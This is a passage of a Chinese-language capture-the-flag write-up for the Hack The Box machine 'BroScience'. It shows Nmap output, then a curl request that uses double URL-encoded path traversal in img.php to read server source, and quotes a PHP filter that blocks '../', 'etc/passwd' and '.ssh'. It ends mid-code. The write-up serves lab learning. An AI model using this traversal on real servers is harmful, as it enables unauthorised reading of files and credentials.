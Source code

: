     |     Form id:
    |     Form action: /comment.php
    |
    |     Path: https://broscience.htb:443/exercise.php?id=1
    |     Form id:
    |     Form action: /comment.php
    |
    |     Path: https://broscience.htb:443/exercise.php?id=3
    |     Form id:
    |     Form action: /comment.php
    |
    |     Path: https://broscience.htb:443/exercise.php?id=4
    |     Form id:
    |     Form action: /comment.php
    |
    |     Path: https://broscience.htb:443/exercise.php?id=8
    |     Form id:
    |_    Form action: /comment.php
    |_http-dombased-xss: Couldn't find any DOM based XSS.

    Nmap done: 1 IP address (1 host up) scanned in 162.82 seconds

# web 渗透

打开火狐看一下前端源码，看到几处有意思的攻击点

**有登录点，可能存在有传参任意文件读，还有传参 sql 注入**

![](https://i.328888.xyz/2023/04/05/i8ikMx.png)

经过手工测试，貌似没有什么问题…………

还有注册页面，尝试注册账号，然后登录进去看看，啊，注册账号后需要验证邮箱，验证功能貌似没用…………

## img.php 双重 url 编码 任意文件读

就很无语，明明已经过滤了，没有必要在过滤之后又进行一次 url 解码

```shell
~/Hackthebox-BroScience/src
> curl -k 'https://broscience.htb/includes/img.php?path=..%252fincludes/img.php'
	<?php
	if (!isset($_GET['path'])) {
	    die('<b>Error:</b> Missing \'path\' parameter.');
	}

	// Check for LFI attacks
	$path = $_GET['path'];

	$badwords = array("../", "etc/passwd", ".ssh");
	foreach ($badwords as $badword) {
	    if (strpos($path, $badword) !== false) {
```